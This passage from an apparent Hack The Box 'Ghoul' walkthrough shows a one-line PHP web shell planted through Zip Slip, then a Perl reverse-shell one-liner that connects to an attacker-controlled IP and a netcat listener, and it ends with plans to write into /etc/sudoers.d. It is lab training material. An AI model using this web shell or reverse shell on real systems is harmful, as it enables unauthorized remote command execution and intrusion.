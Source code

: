 Let\'s zip this little bad boy.

<div class="filename"><span>cmd.php</span></div>

```php
<pre>
<?php echo shell_exec($_GET[0]); ?>
</pre>
```

<a class="image-popup">
![d970e545.png](/assets/images/posts/ghoul-htb-walkthrough/d970e545.png)
</a>

We want to put `cmd.php` at the document root (likely to be `/var/www/html`) of `80/tcp`.

<a class="image-popup">
![4c56b9f9.png](/assets/images/posts/ghoul-htb-walkthrough/4c56b9f9.png)
</a>

Bam. We have remote command execution alright.

### Low-Privilege Shell

From here on, it\'s easy to get a shell. I'm using the following Perl one-liner.

```
perl -e 'use Socket;$i="10.10.14.11";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

It\'s best to `urlencode` the one-liner to prevent any complications when passing it as an URL. On my `nc` listener, a shell appears...

<a class="image-popup">
![5e81818d.png](/assets/images/posts/ghoul-htb-walkthrough/5e81818d.png)
</a>

It\'s equally easy to [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell to a full TTY.

During enumeration of the `www-data` account, you\'ll realize that `8080/tcp` is running as `root`. As such, we can use Zip Slip to write to anywhere, e.g. `/etc/sudoers.d`. Wait a tick, it can't be that easy right? Well, that's because we are inside a docker container.


[1]: https://www.hackthebox.eu/home/machines/profile/187
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/